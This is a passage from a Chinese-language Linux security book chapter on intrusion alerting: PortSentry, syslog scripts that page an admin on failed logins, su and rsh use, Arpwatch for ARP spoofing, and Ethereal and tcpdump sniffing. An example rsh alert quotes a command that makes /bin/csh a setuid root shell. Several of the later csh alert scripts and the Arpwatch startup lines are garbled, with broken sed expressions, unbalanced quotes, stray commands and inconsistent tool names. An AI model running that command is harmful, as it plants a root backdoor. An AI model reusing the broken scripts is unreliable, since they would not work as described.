你可能想列出内部网络的范围，也可能不想。这是一个安全与便利的问题。开始先不列出这些，除了你的“高价值”系统，并密切监控 PortSentry。最近，一个客户的邮件服务器试图向防火墙转发垃圾邮件并被锁定，因此我们决定在垃圾邮件传递完成并信任之前将其视为受信主机。

如果你的某些受信 IP 是动态的，你需要在它们更改时修改此文件。通常，这对于家庭系统是一个问题，无论是 PortSentry 系统本身还是信任它们。如果可以在重连时断开连接并获取新连接，信任其他家庭系统可能不是问题。如果调用 `ignore.csh` 脚本，它将覆盖 `portsentry.ignore` 文件以包含 PortSentry 系统接口的 IP。如果你编辑 `ignore.csh` 并在带有模式 `'0.0.0.0'` 的行之后添加以下行：

```bash
if (-f /etc/rc.d/friends.ignore) then
    cat /etc/rc.d/friends.ignore >> $SENTRYDIR/$TMPFILE
endif
```

然后你可以创建文件 `/etc/rc.d/friends.ignore`，将其权限设置为 600，并在其中列出受信系统。

### 构建和安装

发出以下命令查看哪些系统知道如何构建：

```bash
make
```

对于 Linux（Debian 除外），发出命令：

```bash
make linux
```

对于 Debian Linux，发出命令：

```bash
make debian-linux
```

使用以下命令安装：

```bash
make install
```

### 安排 PortSentry 被调用

我偏好的方法是向 `/etc/rc.d/rc.local` 添加以下内容。如果 PortSentry 已在运行，将被杀死并重启，以便在调整 `portsentry.conf` 文件时更易使用：

```
echo "Starting portsentry advanced stealth modes"
killall portsentry
# Generate list of IPs to ignore scans from
# (friends from /etc/rc.d/friends.ignore)
/usr/local/psionic/portsentry/ignore.csh
# Advanced stealth TCP
/usr/local/psionic/portsentry/portsentry -atcp
# Advanced stealth UDP
/usr/local/psionic/portsentry/portsentry -audp
```

使用以下命令启动 PortSentry：

```
/etc/rc.d/rc.local
```

并监控：

```
tail -20f /var/log/messages
```

### 测试配置

从一个不可信的系统（且该系统不是你访问被测系统的唯一途径）`telnet` 到一个已报警的端口：

```
telnet firewall 6000
```

观察是否有一条记录被添加到 `/var/log/messages`，并执行以下命令以确认是否添加了新的 IP 表规则：

```
iptables -L -n -v | more
```

## HostSentry

HostSentry 程序分析登录模式并报告异常情况，包括用户首次登录、用户在非常规时间（对其而言）登录，以及用户从意外的域远程登录。它可从 CD-ROM 和 Psionic 获取。

以下网址可用于下载，并提供关于 HostSentry 功能的更多说明。

www.psionic.com/abacus/hostsentry/

## 8.6 呼叫系统管理员：破解正在进行中！


尽管刚才讨论的方法设置非常快速且简单，但在你第二天检查电子邮件时（甚至可能要到周一上午 9 点的会议之后才会发现），大量的破坏可能已经发生。你可以结合 `/etc/syslog.conf` 文件中可用的某些 syslog 功能，立即对问题发出警报。最简单的功能是在操作字段中指定账户，这样警告消息将写入任何这些指定人员所登录的系统。

通常，系统管理员的个人账户以及 `root` 都会被列出。这种方法是粗略的，不允许任何智能过滤或警告。你可以使用 `""` 作为操作来更加粗略，这将导致警告消息显示在所有已登录用户的屏幕上，包括破解者的。这对于磁盘空间不足的警告可能比较合适；但通常不会这样做。

在 Linux 下，你可以将指定消息写入一个或多个命名管道，你可以在那里让你的智能过滤程序监听。这是通过在命名管道的完整路径名前加上 `|` 且不使用分隔空格来实现的。在 syslog 启动之前，命名管道必须存在，且监听程序必须正在运行。

监听程序可以安排给你发寻呼机呼叫。电话寻呼机和大多数其他寻呼机都有一个功能，即发送到特定地址的电子邮件会被路由到寻呼机。电子邮件地址可能是 `1234567@skytel.com`，其中 `1234567` 将是寻呼机号码。

Sky Tel 的这项电子邮件服务是免费的，但使用前必须激活。激活服务时，你需要指定以下哪些字段将发送到你的寻呼机：`from`、`subject` 和 `body`。选择所有这些字段会导致某些消息超过消息长度限制。响应时间通常约为五分钟。

其他一些寻呼公司可能提供自动寻呼，方式是你的调制解调器拨号连接到他们的系统并传递消息，或者通过电子邮件。

## 8.7 自动寻呼的示例

在这个示例中，你将安排在未成功的 telnet 登录尝试时收到寻呼。你的 `/etc/syslog.conf` 中唯一具有在已登录用户屏幕上显示操作项的是：

```
*.warn,authpriv.notice,auth.notice bob,root
```

它生成以下输出（在单行上）：

```
Nov 22 22:07:37 cavu login[24072]: invalid password for `UNKNOWN` on `ttypp6` from `359`
```

不幸的是，没有文档或简单的方法来确定 telnetd 使用哪个侧面（在 `: ` 之前）来生成此消息。建议编辑 `/etc/syslog.conf` 文件，复制这一行，注释掉原始行，编辑副本以仅指定某些选择器，并强制生成该消息以查看它是否出现。

如果输入了 `/etc/passwd` 中不存在的账户名，telnetd 守护程序会说“UNKNOWN”；否则，它会列出账户名，例如“bob”。你可能会修改你的 telnetd，使其在说“UNKNOWN”时改为说“U-joe”，这样如果他们试图猜测账户名，你将看到“U-joe”、“U-joe”、“U-jane”、“U-jane”等，并假设他们在常见账户名上尝试少数不太可能的密码。请注意，你必须使用制表符将选择器与账户分开，不要使用空格。

```
authpriv.notice  bob
```

然后我执行了：

```
ps axlww | grep syslog
```

以找到 syslog 的 PID（在我的情况下是 97），然后发送 HUP 信号使其重新读取 `/etc/syslog.conf` 文件，如下所示：

```
kill -HUP 97
```

我尝试使用虚假的登录序列进行 telnet 登录，但我没有看到登录消息，所以这是错误选择器。

我尝试了：

```
auth.notice  bob
```

（并发送了 `kill -HUP 97` 并尝试 telnet 登录。这生成了消息，所以这是要使用的选择器。你首先需要创建一个 shell 脚本（或 Perl 或 C 程序）将此错误消息转换为适当的 Mail 命令以激活寻呼机。由于寻呼机消息长度有限，你需要编辑消息。

以下脚本完成了这项工作。它可以由任何 shell 调用。它可以命名为 `/usr/local/bin/syslog_login`。

```
#!/bin/csh -f
loop:
set x="$<"
echo "$x" | grep -q ': invalid password'
if ($status == 0) then
echo "$x" | sed 's/^.*: \([^ ]*\): invalid password for /BAD PW:\1:/' | mail 1234567@skytel.com
endif
goto loop
```

一旦你启用此功能，这将导致你的寻呼机上出现以下内容。这显示了你的系统用于 telnet 的内容，让你知道该多担心。

```
BAD PW:cavu:'bob' on 'ttypp6' from 'cavu'
```

因为你的寻呼机将指示寻呼时间，所以不要用时间戳杂乱屏幕。接下来，你需要创建一个命名管道，将数据从 syslog 传递到此脚本。此管道只需以 root 身份创建如下：

```
mknod /usr/local/etc/syslog_auth p
chmod 600 /usr/local/etc/syslog_auth
```

接下来，你需要安排此脚本在系统启动时启动。在 Red Hat 或 Slack 中，你可以向 `/etc/rc.d/rc.local` 文件添加以下行：

```
(/usr/local/bin/syslog_login </usr/local/etc/syslog_auth) &
```

然后你希望第一次通过向 root shell 发出命令或通过重新启动（如果不麻烦的话）来启动它。

> 注意，在进行任何更改启动序列的操作时，包括更改启动脚本、创建新内核等，拥有一个简单的替代方案来重启系统并撤销你的更改是非常重要的，以防你犯错误导致系统无法启动。

通常这涉及一套救援磁盘。通常，这些是在主要更新后创建的。它们由你的内核副本（用 `rdev` 修补以检测软盘上的根文件系统）和一个合适的救援根系统的压缩映像组成。根文件系统软盘可以用 `dd` 从你的 Linux 发行版 CD-ROM 复制。所有这些过程在《Linux 管理员文档》中都有描述。

最后，你需要将 `/etc/syslog.conf` 中的该条目更改为：

```
auth.notice |/usr/local/etc/syslog_auth
```

然后使用 `kill` 向 syslogd 发送 SIGHUP。现在你可以通过尝试使用虚假密码或登录 ID 进行 telnet 登录来测试此功能。

## 8.8 基于自动寻呼示例的扩展

你以那种特定方式编写脚本，是因为它允许你轻松扫描其他事件并为其生成自定义寻呼。在大型系统中，有些人会有弱密码（除非你确保不允许容易被破解的密码，如第一部分所述）。

因此，一种常见技术是猜测某个普通用户的密码作为入侵的第一步，随后尝试 `su` 到 root（第一部分讨论了如何配置系统，使 root 可以从物理安全的控制台登录，而不是通过某个破解天堂的 telnet 登录）。

当然，在 `su` 尝试失败时你希望收到寻呼。该程序也通过 `auth.notice` 记录失败的尝试。因此，只需向你的脚本添加几行并重启即可。

```
#!/bin/bash -f
while true
do
    read x
    echo "$x" | grep -q ': invalid password'
    if [ $? -eq 0 ]; then
        echo "$x" | sed 's/^.*: \([^ ]*\): invalid password for /BAD PW:\1:/' | mail 12345667@skytel.com
    fi
    echo "$x" | grep -q 'su\[.*\]: Authentication failed'
    if [ $? -eq 0 ]; then
        echo "$x" | sed 's/^.*: \([^ ]*\): Authentication failed for /BAD SU:\1:/' | mail 12345667@skytel.com
    fi
done
```

这将导致在未成功的 `su` 到 root 时收到以下寻呼：

```
BAD SU:cavu:root
```

你不需要发送 HUP，因为其配置文件没有改变。

第二个示例主要展示了如何在一个脚本中添加对其他消息的处理。知道哪个账户尝试 `su` 到 root 以及使用哪个终端会很有帮助，这样如果你的助手在某个晚上调整系统，你就不会被打扰。

`su` 程序确实会记录这些额外信息，但在调试级别。因为许多其他程序也在此级别记录安全相关信息，将所有这些通过你的脚本传递，并挑选要寻呼的消息。因此，编辑 `/etc/syslog.conf` 以显示以下内容，并向 syslog 发送 SIGHUP：

```
auth.* |/usr/local/etc/syslog_auth
```


（你也可以选择用其他方式处理其中一些日志，例如发送电子邮件到你的账户，甚至发送到另一台系统上。在一次成功的入侵破解中，你所有的“绊索”都会被禁用，但如果将它们设置在所有入口附近，以便在系统被攻破之前获得“警告”，你仍然会收到警告，并且希望能及时阻止攻击者）。

原始日志消息看起来像这样：

```
Nov 24 13:13:18 cavu su[426]: - tty2 bob-root
```

以下脚本可以很好地处理这种情况。（它可以由任何 `shell` 调用）。

```
#!/bin/csh -f
loop:
read x

echo "$x" | grep -q ': invalid password'
if ($status == 0) then
necho "$x"
| sed "s/...........: \([^]*\).*: invalid password for /BAD PW:\1/"
| Mail 1234567@skytel.com
endif

echo "$x" | grep -q 'su[.:* - -'
if ($status == 0) then
necho "$x"
| sed -e "s/^.*........: \([^]*\).*: - /BAD SU:\1/\ "
| Mail 1234567@skytel.com bob@homesys.com bob@pentacorp.com
endif

goto loop
```

这将生成以下页面，其中 `"-"` 被更改为 `"->"` 以指示 `bob` 试图获得比其他用户更高的权限。让所有这些页面非常容易理解是很重要的，因为你可能在凌晨 3 点从熟睡中被叫醒，此时你的精神状态可能并不处于最佳。

```
BAD SU:cavu:ttty2 bob-warren
```

在此脚本中，你还安排了向你的家庭和工作系统接收电子邮件。真正谨慎的人不希望留下任何家庭系统地址的证据，以免攻击者利用它来扩大其攻击范围。一种解决方案是将此电子邮件发送到第三个应该非常安全的系统，该系统然后将电子邮件转发到你的家庭系统。有许多公共 `re-mailer`（中继邮件服务）可以使用。

### 呼叫 telnet 和 rsh 使用情况

你可以通过以下添加内容来向脚本添加部分功能，当某人发起 `telnet` 会话时（无论登录是否成功）呼叫你自己。对于来自 `cia.com` 或 `cavu` 的 `telnet` 会话，你不会收到呼叫，因为你是信任这些系统的。注意，这处理的是 `TCP Wrappers` 允许的 `telnet` 连接。`TCP Wrappers` 是一个用于阻挡攻击者的绝佳工具，其用法在本章和第 109 页的“`TCP Wrappers`”部分中有介绍。

```
set y=echo "$x" | sed -e 's/.*' -e 's/.*//'
echo "$x" | grep -q 'telnet\[.*: connect from '
if ("$status == 0) then
  if ("$y" = "cia.com") goto pasttelnet
  if ("$y" = "cavu.com") goto pasttelnet
  echo "$x" \
  | sed -e "s/^...::\([^^]*).*: /telnet\:1;"
  | Mail 1234567@skytel.com bob@homesys.com bob@pentacorp.com
endif
```

下一个示例将在 `TCP Wrappers` 不允许的情况下尝试 `telnet` 时生成呼叫。这将被视为一次被挫败的破解尝试！

```
echo "$x" | grep -q 'telnet\[.*: refused connect from '
if ("$status == 0) then
  echo "$x" \
  | sed -e "s/^...::\([^^]*).*: /refused connect from/telnet\:1;REFUSED /"
  | refused connect from //"
  | Mail 1234567@skytel.com bob@homesys.com bob@pentacorp.com
```

`rsh` 程序非常流行，因为它允许你轻松地向远程系统发出命令。如果某人破解了 `joe@cia.com` 并且 `joe@cia.com` 有权限向 `nsa.com` 上的 `bob` 账户发出 `rsh` 命令（通过在 `nsa.com` 上的 `~joe/.rhosts` 中列出 `cia.com`），那么他们也就“拥有”了 `joe@nsa.com` 的权限。

相比之下，`ssh` 命令更受青睐，因为它是安全的。作为替代方案（但不如 `ssh` 安全），你可以使用 `TCP Wrappers` 来限制哪些系统可以使用 `rsh` 向你的系统发出命令。无论如何，如果你允许使用 `rsh`，你希望在它被使用时收到呼叫（或电子邮件），可以通过以下添加内容来实现：

```
echo "$x" | grep -q 'rsh\[.*: .*cmd='
if ("$status == 0) then
  echo "$x" \
  | sed -e "s/^...::\([^^]*\)\[]:*: /rsh\:1;"
  | Mail 1234567@skytel.com bob@homesys.com bob@pentacorp.com
```

你将收到的电子邮件或呼叫看起来像这样：

```
rsh:cavu:root@cracker.com as root: cmd='chown root /bin/csh;
chmod 4777 /bin/csh'
```

## 8.10 使用 Arpwatch 捕获 ARP 和 MAC 攻击

在任何基于以太网的局域网（`LAN`）中，在最低层级上，数据包的目标是通过机器的以太网卡地址（更常见的术语是媒体访问控制（`MAC`）地址）来指定的。当系统想要向特定 `IP` 地址发送数据包时，它会发出一个地址解析协议（`ARP`）请求，例如说“谁是 `IP 10.0.0.27`”。如果每个人都公平行事且配置正确，目标系统会回应说“是我，我的 `MAC` 地址是 `00:87:72:23:7F:AA`”。源系统会将数据包发送到 `MAC` 地址 `00:87:72:23:7F:AA`。该协议设计于 20 多年前，当时现代互联网尚不存在，没有人担心安全，只有经验丰富的系统管理员才有权限管理局域网上的系统。

现在，任何人都可以将笔记本电脑接入网络并响应 `ARP` 请求，从而彻底攻击网络。一旦网络规模扩展到 10 台左右系统以上，管理就变得不平凡了。即使是善意用户也可能无意中使用了冲突的 `IP` 地址，忘记将笔记本电脑的 `IP` 地址更改为组织正确的地址，等等。

> 许多网络使用动态主机配置协议（`DHCP`）或 `ZeroConf` 自动分配 `IP` 地址，但使用这些程序并不能完全防止 `IP` 冲突。`DHCP` 服务器可能导致重复 `IP` 地址的许多情况，最常见的是系统管理员错误。然而，如果租约文件损坏或被删除，可能会发出重复的 `DHCP` 租约。

解决意外和故意问题的最佳方案是使用 `Arpwatch` 监控 `ARP` 流量。这个开源程序由美国政府的 Lawrence Berkeley 实验室开发，适用于 `Linux` 和 `UNIX`。2002 年春天，我对它进行了主要增强，以更好地跟踪拥有多个子网的大型敌对网络中的问题。这个增强版可以在 `CD-ROM` 上找到，或者通过电子邮件向 `book@verysecurelinux.com` 请求获取。

在进一步讨论之前，我需要引入“`bogon`”（`bo'gon`）这个术语。如果一个数据包的 `IP` 地址与其所在子网不匹配，则称为 `bogon`。

要在你的系统上安装增强版的 `Arpwatch`，请挂载 `CD-ROM` 并从 `tarball` 构建：

```
cp /mnt/cdrom/book/arpackwatch.bob.tar.gz
zcat arpackwatch.bob.tar.gz | tar -xovf-
cd arpackwatch-bob
./configure
make
make install
make install-man
man arpackwatch
```

接下来，添加类似于以下命令到 `/etc/rc.d/local` 文件，以便它在重启时自动启动：


# "-O" 增强功能，抑制 Apple 0.0.0.0 的无意义行为
# "-m foo" 增强功能，将邮件发送给 foo 而不是 root
# "-w from" 增强功能，指定发件人地址（包含哪个办公室）
# "-u MAC" 增强功能，指定上游路由器的 MAC 地址
以避免在 bogon 检测中产生误报

```
echo "Starting arpackwatch on each Ethernet interface"
ARPACKET=/usr/local/sbin/arpackwatch
ARPARGS="-O -m sysadmin@pentacorp.com"
# 指定上游路由器的 MAC 地址（如果有）
ARPUPS="-u 00:07:4C:92:76:68"
killall arpackwatch
$ARPARGS -f /var/log/eth0 -i eth0 -w "arpackwatch" (NYC:eth0) " \
  $ARPUPS
$ARPARGS -f /var/log/eth1 -i eth1 -w "arpackwatch" (NYC:eth1) " \
  $ARPUPS
$ARPARGS -f /var/log/eth2 -i eth2 -w "arpackwatch" (NYC:eth2) " \
  $ARPUPS
```

最后，初始化其人类可读的数据库并首次启动它：

```
cd /var/log
touch eth0 eth1 eth2
chmod 600 eth0 eth1 eth2
/etc/rc.d/local
```

这个防火墙在 `eth1` 上有一个内部网络，在 `eth2` 上有一个 DMZ。`-w` 标志的参数将显示为“发件人”地址，例如“arpackwatch”，并指示哪台防火墙生成了消息以及数据包源自哪个网卡。每个运行的 Arpackwatch 进程都会构建一个内存数据库

IP 地址-MAC 地址对，并将其备份到磁盘（`/var/log/eth/`），每 15 分钟执行一次。如果你的上游路由器通过以太网连接到此系统，则应使用 `-u` 标志指定其 MAC 地址，以进行智能的错误数据（bogon）检测。

通常，Arpatch 会将自己分叉到后台运行。当发生值得关注的事件时，它会使用 Syslog 生成日志条目并发送电子邮件。一个常见的“陷阱”是忘记创建一个零长度文件作为数据库文件。如果 Arpatch 启动时该文件不存在，它会通过 Syslog 生成日志条目并静默退出。对于普通观察者来说，这种行为与正常启动是无法区分的。

在最初配置 Arpatch 时，请运行 `ps -axlw arpatch` 以确认其仍在运行。此外，请记住它每 15 分钟或收到中断或 HUP 信号时才向数据库文件写入一次（该文件只能使用 `more` 查看）。如果使用调试模式（`-d`）启动，它将在前台运行，并将消息写入标准错误输出，而不是生成日志消息和电子邮件。如果你是在大型网络上第一次启动它，你可能需要对其进行调试，直到它建立好运行系统的数据库为止。

当看到一个新的 IP 地址时，它会生成一封电子邮件，说明这是一个新站点。电子邮件包括 IP 地址、如果 DNS 成功则包括主机名、MAC 地址、以太网卡值和时间戳。被视为“bogon”的机器要么是配置错误的，要么是网络上的黑客。所有这些消息都值得调查，许多 DHCP 配置会导致此类告警。

当一个数据包通过路由器从互联网进入时，该数据包的源 IP 地址将是互联网上该系统的 IP 地址，但 MAC 地址将是路由器的 MAC 地址。Arpatch 区分它是否为路由器的唯一方法是：如果 MAC 地址与使用 `-u` 标志指定的路由器 MAC 地址匹配，Arpatch 会抑制 bogon 警告。如果网络未通过以太网连接（例如，如果防火墙使用内部 T1 卡进行自身路由），`-u` 标志可以使用多次，但在这种情况下不应使用 `-u`。Arpatch 还认识到其运行的系统本身可能是一个路由器，并假设任何 MAC 地址与其任一接口匹配的都是在被路由的数据包。

当黑客接管一个系统并计划使用它一段时间时，他会将其 IP 地址更改为一个尚未使用的地址，以使你更难追踪到他。不必费心更改以太网地址，因为如果你跟踪哪个系统拥有哪个 MAC 地址，这些有问题的系统很容易追踪到。即使黑客更改了网卡的 MAC 地址，Arpatch 也会通知你有新机器进入了网络（或现有机器更改了其 MAC 地址）。然后你可以调查原因。

典型的新站点电子邮件看起来像这样：

```
From: arpatch@redshift2 (ATL:eth1)
To: bob@redshift2
Subject: new station (redshift)
hostname: redshift (eth1)
ip address: 10.0.0.2
ethernet address: 00:87:72:23:7F:AA
ethernet vendor: INTEL CORPORATION
timestamp: Tuesday, June 11, 2002 6:11:52 -0400
```

## 8. 使用 Arpwatch 捕捉 ARP 和 MAC 攻击

如果你使用 DHCP，你可以通过为用户系统建立静态 IP 地址，并将它们放入内部 DNS 数据库，或者至少放入防火墙的 `/etc/hosts` 文件中，来简化自己的工作。如果你的防火墙是 Linux 或 Unix 系统，那么 Arpwatch 应该运行在它上面。以下是来自 ISC DHCP 服务器配置文件的典型静态 IP 条目：

```
# Research
host warpdevel {
    hardware ethernet 00:27:37:24:36:69;
    fixed-address 10.0.19.62;
    option host-name "warpdevel"
}
```

花些时间这样做，任何虚假系统都会以没有主机名的新系统或更改了其以太网地址的系统出现在网络上。两者都是可能存在安全漏洞的优秀且即时的警告。以下是一个典型的告警：

```
From: arpwatch@redshirt2 (ATL:eth1)
To: bob@redshirt2
Subject: changed ethernet address (10.0.0.3)
hostname: redshift (eth1)
ip address: 10.0.0.2
ethernet address: 00:56:97:86:39:A7
ethernet vendor: A. Centauri Corp
old ethernet address: 00:87:72:23:7F:AA
old ethernet vendor: APPLE CORP
timestamp: Tuesday, June 11, 2002 7:14:37 -0400
previous timestamp: Tuesday, June 11, 2002 6:42:34 -0400
delta: 32 minutes
```

如果你在网络上拥有两个具有相同 IP 地址的不同系统，你就必然面临一个问题。

IP 地址与其子网不匹配的系统会被显示为虚假的（bogus）。以下是一个典型的例子。在这种情况下，有人在 Windows 系统上运行时，没有麻烦去配置使用组织的 DHCP 服务器。拥有许多笔记本电脑用户的网络会经常看到这种情况：

```
From: arpwatch@redshirt2 (ATL:eth1)
To: bob@redshirt2
Subject: bogus new station (169.254.173.57)
hostname: 169.254.173.57
ip address: 169.254.173.57
ethernet address: 00:71:67:23:13:17
ethernet vendor: 3COM CORPORATION
timestamp: Tuesday, June 11, 2002 7:31:48 -0400
```

一些 Mac 存在这样的故障：当它们启动时，它们在 IP 地址设置之前就开始发送数据包。在这种情况下，IP 地址将是 0.0.0.0。Arpatch 的 `-0` 标志仅使其在 Syslog 条目中记录这一点，而不将其视为需要关注的事情。只有当以太网供应商是 Apple 时，它才会对 0.0.0.0 IP 地址进行这种特殊处理。

当一台使用 DHCP 的新机器进入网络时，其初始 IP 地址可能为 0.0.0.0，仅持续足够长的时间以从 DHCP 服务器接收租约。另一种可能发生这种情况的条件是，如果 DHCP 租约已过期并分配给另一台机器，而客户端计算机此时已断开网络连接。当该计算机（我的笔记本电脑）重新加入网络时，它会表现出新机器的特征，同样仅持续足够长的时间以获取新租约。

### 8.11 监控端口使用情况


黑客通常通过发现系统配置中的错误（通常是权限不正确）、破解密码或发现利用不足的软件（通常是服务器）中的漏洞来入侵系统。他们认识到这些安全漏洞中的许多会在短时间内被修复，因此他们留下特洛伊木马，这些木马不太容易被发现，无论是现在就发现还是稍后在其它事情上发现。

在某个特洛伊木马（例如，被设置为 `root` `UID` 或由 `root` 调用的程序）的情况下——在第一种情况下，被破坏的程序依赖于黑客对普通账户的长期访问权限以便从中调用。在大型系统上，这可能是定期要求更改密码的一个很好的理由（对于良好的密码和小心处理密码的情况除外）。被破坏的程序可能需要等待 `root` 调用它。

今天的黑客工具更加复杂。他们可以破坏正在运行网络服务的守护进程。这个黑客只需要使用适当的客户端连接，瞬间就进入了你的系统！一个警惕的系统管理员可以检测到这一点。一种常见的技术是启动一个监听在其他未使用端口的特洛伊程序，并指望你没有注意到。典型的笔记本电脑在给定时间可能有 20 个端口，而一个活跃服务器可能有数百个。

解决方案是熟悉应该运行哪些服务，并经常检查正在运行哪些服务。应该经常使用第 80 页“关闭所需服务”中讨论的 `netstat` 或 `ports`，以搜索昨天没有的“可疑端口”。它们在已知状态下的输出可以保存并与周期性调用进行比较。

`ports` 程序会注意到处于监听状态的高编号端口，这些端口可能是等待黑客命令的特洛伊木马。此外，它知道最流行的特洛伊木马的默认端口，并也会标记这些端口。`Ethereal` 程序是我最喜欢的实时端口监控程序。

## 8.12 使用 Ethereal 监控攻击

`Ethereal` 是一个设计良好且易于使用的基于 GUI 的程序，用于嗅探以太网接口的数据包并对其含义进行解读。它是执行此任务的首选程序。`Ethereal` 将 IP 地址、MAC 地址以及高层和低层协议字段映射到符号名称，以便更容易解释。它允许对数据包的任何部分进行解释性查看，但避免了数据包中通常无关紧要的压倒性部分。它具有非常强大的过滤功能，能够理解甚至像 DNS、SMTP、NFS、SMB (CIFS) 和 Quake 这样的应用程序层协议。如果你被其界面和格式宠坏了，不必担心，因为它可以解释许多运行在许多平台上的其他嗅探器的二进制格式。在其主页面列出的许多非原生转储格式中，包括 Microsoft Network Monitor、Cisco Intrusion Detection System、pppd 等。

`Ethereal` 会将 IP 数据包组装成更高层的 TCP 数据包（例如），并显示正在传输的 ASCII 或十六进制数据。与 `tcpdump` 天真地拒绝显示数据包中的数据不同，`Ethereal` 可以被用于善也可以被用于恶。用于检查数据包数据的黑客工具如此容易获得，因此没有理由不为系统管理员提供这样的工具。（请善意地不要阅读他人的电子邮件。）

下载 `Ethereal`

`www.ethereal.com`

`tarball` 看起来像 `ethereal-0.9.5.tar.gz`。使用以下命令提取 `tarball` 的内容并更改到新创建的目录中。

```
tar -xzof ethereal-0.9.5.tar.gz
cd ethereal-0.9.5
```

`Ethereal` 至少需要 GTK 版本 1.2（开发版本）和 glib 版本 1.2。这些库在大多数发行版的工作站版本中都是标准的。要看看你是否侥幸拥有它们（这很可能是），请发出以下两个命令：

```
gtk-config --version
glib-config --version
```

如果你的系统没有它们，可以从以下地址下载：

`www.gtk.org`

为你的平台配置和构建 `Ethereal`，如下所示。要用 `Ethereal` 捕获数据包（例如，谁不想这样做呢），你需要随 `tcpdump` 一起提供的 `libpcap` 库。它同样随许多发行版提供，也可以从以下地址下载：

### 8.12 安装 Ethereal

`Ethereal` 提供了 `README*` 和 `INSTALL` 文件，你可以阅读这些文件以获取更多相关信息。

为你的平台进行配置并构建，请使用以下命令：

```
./configure
make
```

使用 `su` 命令切换为 `root` 用户，并执行以下命令进行安装：

```
make install
make install-man
```

### 8.12.2 使用 Ethereal

以下命令将执行基本的“嗅探 `eth0` 接口的所有流量并实时显示结果”操作：

```
ethereal -k -S -i eth0
```

`-k` 标志立即开始数据包捕获，`-S` 触发滚动显示，而 `-s` 则立即显示接收到的数据包。当然，`-i` 标志用于指定接口。默认情况下，它选择第一个非回环接口，通常也就是 `eth0`。`Ethereal` 会显示第一个捕获到的数据包中的文本数据，并显示所有数据包的源地址和目的地址。请务必尊重用户隐私及隐私法律。建议在你的家庭系统或隔离网络上进行实验。

请注意，在捕获开始后的几秒钟内（分辨率可达微秒级），主窗口的上方面板会显示每个数据包的源、目的、协议及详细信息。中间面板显示每个数据包的逻辑组件。IP 地址、MAC 地址、DNS、NFS、SMTP、Quake 以及其他高层协议组件都会被解析。点击其中任何组件，都会将其展开为更细粒度的组成成分。这些成分同样可以继续展开。在每一层级，数据都会被解析展示。

例如，如果你点击一个 DNS 应答，你将看到哪些主机名和 IP 地址匹配给定的查询。主窗口底部面板显示正在检查的数据包在 ASCII 和十六进制格式下的转储。`Ethereal` 会自动解压 TCP 会话和转储内容。其语法基于 `tcpdump(8)`，可在捕获、显示或两者同时进行时使用。请记住，如果你的监控系统位于交换机上，除非流量是流向或源自你的系统，或者是广播流量，否则你将无法看到这些流量。

## 8.13 使用 tcpdump 监控局域网

美国政府的能源与核研究实验室之一，劳伦斯伯克利国家实验室（LBL），提供了 `tcpdump` Linux/UNIX 工具。这是一个网络嗅探器，旨在帮助系统管理员分析计算机和网络中的一般网络问题以及安全问题。

> 我还在开发客户端/服务器软件期间发现 `tcpdump` 在调试时非常有用的。一个周六晚上，我接到一个电话，说服务器（我和 Larry Gee 共同开发的）没有响应某些客户端请求。客户端工程师坚信那不是他的代码问题，而且他的代码质量确实很高。
>
> 在承诺请吃免费晚餐后，我驱车前往数据中心。不到五分钟，`tcpdump`（通过第三台系统）就证明服务器发送了正确的响应。后来发现 bug 出在 Win 9x 上，它没有投递数据包。

`tcpdump` 程序及相关软件可以从该实验室下载，其设置和使用都非常简单。首先，下载以下这三个文件：

```
ftp://ftp.ee.lbl.gov/libcap.tar.Z
ftp://ftp.ee.lbl.gov/pcapture-0.2.1.tar.Z
ftp://ftp.ee.lbl.gov/tcpdump-3.4.tar.Z
```

执行以下命令将这些文件提取到名为 `libcap-0.4`、`pcapture-0.2.1` 和 `tcpdump-3.4` 的子目录中，这些目录包含源代码：

```
tar -xzovf libcap.tar.Z
tar -xzovf pcapture-0.2.1.tar.Z
tar -xzovf tcpdump-3.4.tar.Z
```

然后，使用以下命令构建 `libcap`：

```
cd libcap-0.4
./configure
make
cd ..
ln -s libcap-0.4 libcap
```

使用以下命令构建 `pcapture`：

```
cd pcapture-0.2.1
./configure
make
su
make install
make install-man
exit
```

最后，构建并安装 `tcpdump`。

```
cd ../tcpdump-3.4
./configure
make
su
make install
make install-man
```

如果你正在使用 `csh`，请执行 `rehash` 命令。若要监控 ARP 数据包，以下命令是一个良好的起点：

```
tcpdump arp
```

类似地，也可以监控 ICMP 数据包：

```
tcpdump icmp
```

### 8.13.2 使用 tcpdump

这里介绍了一些 `tcpdump` 更有用的标志。`-i` 标志用于指定使用哪个接口。`-l` 标志如果在输出不是 tty 时，会导致 `tcpdump` 对输出进行行缓冲。这在以下场景中非常有用，即希望立即在屏幕上显示输出，同时将捕获内容保存至文件以便后续详细分析。

```
tcpdump -l other options | tee foo
```

或者

```
tcpdump -l other options > foo & tail -f foo
```


`-N` 标志会在第一个点号处截断显示的主机名。在任何标志之后，可以跟随一个可选的表达式，该表达式指定应转储哪些数据包。如果没有表达式，所有数据包都将被转储。如果你在网络化网络或 X 会话上运行 `tcpdump`，这种 I/O 操作会被显示出来。（请警惕“无限循环”。）表达式类似于 shell 语言或 `find` 程序中的表达式。

可用于构建表达式的一些“基础”元素包括以下各项：

- `type`

  这其实是个不太准确的名词，它实际上是通过主机、网络或端口进行选择。这些选项各需要一个限定符，例如，主机名或 IP 地址。`net` 原语接受 `address/bits` 形式，其中 `address` 是 IP 地址，`bits` 是需要匹配的网络位数量。因此，要匹配 Pentacorp 的 B 类网络，请使用：

  ```
  tcpdump net 192.168.0.0/16
  ```

- `direction`

  这些选项允许你指定感兴趣的数据包方向。值包括 `src`、`dst`、`src or dst` 以及 `src and dst`。

- `protocol`

  这些包括 `tcp`、`udp`、`arp`、`rarp`、`ether`、`ip`、`decnet` 以及 `lat`。

- `special`

  这些包括 `broadcast`、`gateway`、`less` 以及 `greater`。`broadcast` 原语匹配广播数据包。`gateway` 原语意味着以太网地址（而非 IP 地址）匹配，但此系统的 IP 地址既不是源也不是目的地址。

- `booleans`

  识别 `and`、`or` 和 `not` 布尔运算符，同时也识别 `&&`、`||` 和 `!`。

- `relations`

  这些操作允许测试协议内的字节。可用于查找碎片数据包以及某些可能是攻击的损坏数据包。详细信息见 `man` 手册页。

- `parentheses`

  括号 `(` 和 `)` 必须在 shell 中转义。

如果你怀疑有人在 Internet 上下载你的 DNS 信息，且你是 Pentacorp 的 SysAdmin，以下命令可以监控这种情况。在此示例中，你正在 PPP 接口上监控。当然，大型公司会有更大的带宽。请记住，区域传输使用 TCP 进行；将你的转储限制在 TCP 上，可以避免那些对于向你的员工发送电子邮件或访问你的公共网站的人来说例行的单主机查找。

```
tcpdump -i ppp0 dst port 53 and tcp and not src net 192.168.0.0/16
```

